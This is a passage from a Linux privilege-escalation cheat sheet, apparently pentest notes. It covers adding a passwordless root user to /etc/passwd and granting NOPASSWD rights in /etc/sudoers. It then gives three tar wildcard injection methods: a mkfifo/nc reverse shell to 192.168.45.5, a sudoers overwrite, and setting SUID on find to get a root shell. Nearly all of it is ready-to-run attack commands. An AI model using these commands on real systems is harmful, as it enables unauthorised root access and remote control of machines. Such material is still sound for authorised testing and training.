 You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.\
WARNING: you might degrade the current security of the machine.

```bash
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

### Writable /etc/sudoers

```bash
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```

## Tar Wildcard

#### **Tar Wildcard Injection (1st method)**

```bash
echo "mkfifo /tmp/lhennp; nc 192.168.45.5 443 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar * 
```

#### **Tar Wildcard Injection (2st method)**

```bash
echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
echo "" > "--checkpoint-action=exec=sh demo.sh"
echo "" > --checkpoint=1
tar cf archive.tar *

sudo -l
sudo bash
whoami
```

#### Tar Wildcard Injection (3rd method)

```bash
echo "chmod u+s /usr/bin/find" > test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
ls -al /usr/bin/find
find f1 -exec "whoami" \;
root
find f1 -exec "/bin/sh" \;
id
whoami
```
